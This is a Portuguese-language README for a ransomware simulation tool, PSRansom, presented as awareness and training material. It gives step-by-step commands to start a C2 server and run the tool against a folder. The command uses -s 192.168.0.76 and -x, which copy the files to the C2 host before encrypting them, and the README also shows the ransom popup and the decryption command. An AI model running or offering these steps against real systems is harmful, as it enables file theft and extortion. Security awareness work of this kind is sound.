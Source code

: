<div align="center">
  <img src="https://github.com/EfySecurity/Coding-Tool/blob/main/icons8-base-64.gif" alt="Project Logo">
</div>

## PSRansom - Simulação de Ransomware com C2

PSRansom ​​é um script escrito em PowerShell que permite simular o funcionamento de um Ransomware. É um script que você pode utilizar por exemplo em uma apresentação de conscientização sobre os riscos e o impacto que um ransomware pode causar.

🔴 O uso indevido desta técnica é de sua total responsabilidade e está sujeito as penalizações prevista na [Lei 12.737](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm).

## Como Usar

01 - Realize o clone do projeto PSRansom

```bash
git clone https://github.com/JoelGMSec/PSRansom
```

02 - Entre no diretorio dos arquivos

```bash
cd PSRansom
```

03 - Use o comando para vizualizar todos arquivos contido no diretorio

```bash
ls -l
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-01.png" alt="psransom-01.png">
</div>

04 - Inicie o C2 Server através do comando a seguir:

```bash
pwsh C2Server.ps1 + 80
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-02.png" alt="psransom-02.png">
</div>

05 - No host Windows criei a pasta 100SECURITY com alguns arquivos como exemplo.

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-03.png" alt="psransom-03.png">
</div>

06 - Realize o download do PSRansom no Windows e execute o comando a seguir:

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-04.png" alt="psransom-04.png">
</div>

- C:\100SECURITY : Pasta Alvo
- 192.168.0.76 : Servidor C2
- 80 : Porta de conexão com o servidor C2
- -x : Realiza a cópia dos arquivos para o servidor C2

07 - No servidor C2 o atacante recebe a lista de arquivos que foram criptografados e a Chave de Recuperação.

```bash
Chave de Recuperação : WNLmTxjnDpzZGaEF4AsUYgi5
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-05.png" alt="psransom-05.png">
</div>

Arquivos `criptografados` com a extensão `.psr`

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-06.png" alt="psransom-06.png">
</div>

08 - Dentro da pasta C2Files o atacante recebe uma cópia de todos os arquivos antes da criptografia.

```bash
cd CS2Files
```

```bash
ls -l
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-07.png" alt="psransom-07.png">
</div>

07 - Observe que foi criado o arquivo readme.txt contendo a Chave de Recuperação dos arquivos.

```bash
Recovery Key : WNLmTxjnDpzZGaEF4AsUYgi5
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-08.png" alt="psransom-08.png">
</div>

08 - Para recuperar os arquivos basta digitar o comando a seguir :

```bash
.\PSRansom.ps1 -d C:\100SECURITY -K WNLmTxjnDpzZGaEF4AsUYgi5
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-09.png" alt="psransom-09.png">
</div>

Arquivos `recuperados` com sucesso!

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-10.png" alt="psransom-10.png">
</div>

🔴   Exibindo uma mensagem da Tela do Usuário
Para exibir a mensagem basta utilizar o parâmetro `-demo`:

```bash
.\PSRansom.ps1 -e C:\100SECURITY -s 192.168.0.76 -p 80 -x -demo
```

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-11.png" alt="psransom-11.png">
</div>

💀 Mensagem!

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-12.png" alt="psransom-12.png">
</div>

Se o usuário clicar em `Pay Now!` é exibido um pop-up na tela.

<div align="center">
  <img src="https://www.100security.com.br/images/psransom-13.png" alt="psransom-13.png">
</div>

## 🔓 Observações
O impacto e o prejuízo financeiro que este tipo de ataque por causar nas empresa é muito grande, segue algumas recomendações :

Conscientize de forma constante os colaboradores da sua empresa, sobre os riscos de segurança
Realize exercícios e simulações de Phishing, Ransomware, Engenharia Social, etc.
Invista em soluções de segurança como EDRs, AVs, Firewall, WAF, etc.
Se possível monte um time interno de segurança em sua empresa para realizar simulações de ataques reais.
Contrate uma consultoria especializada para avaliar seu ambiente de forma independente e periódica.
Leve a segurança dos dados da sua empresa e de seus clientes a sério!


# Simulação de Ransomware com C2 - Projeto de Estudo

Este projeto é uma simulação de ransomware com um servidor de comando e controle (C2) e é destinado apenas para fins educacionais e de aprendizado. Ele não deve ser usado de forma maliciosa ou prejudicial.

## Fonte Original

Este projeto foi inspirado por um tutorial e código fonte fornecido por [JoelGMSec](https://github.com/JoelGMSec). Certifique-se de verificar o tutorial original para obter mais informações detalhadas.

## Fonte da Simulação

As imagens do projeto mostradas acima foram tiradas do tutorial fornecido por [100SECURITY](https://www.100security.com.br/psransom).

---
**OBSERVAÇÃO:**
Quero deixar meus agradeçimentos ao [JoelGMSec](https://github.com/JoelGMSec) pela criação do projeto e tambem a equipe [100SECURITY](https://www.100security.com.br/psransom) pela demostração na pratica!!!

## Sobre o Projeto

O objetivo deste projeto é permitir que os estudantes de segurança cibernética compreendam como um ransomware pode funcionar, bem como aprender a se defender contra esse tipo de ameaça. É importante lembrar que a criação e disseminação de malware são atividades ilegais e prejudiciais.

## Pré-requisitos

Certifique-se de ter o ambiente adequado configurado para executar este projeto de forma segura. Você deve estar ciente de que este projeto simula um ransomware, e executá-lo em um ambiente de produção resultará em perda de dados.

## Contribuição e Responsabilidade

Este projeto é apenas para fins educacionais e não deve ser usado para atividades maliciosas. Os contribuidores deste projeto não se responsabilizam pelo uso inadequado ou ilegal do código fornecido.

## Licença

Este projeto está sob a [Licença MIT](LICENSE).
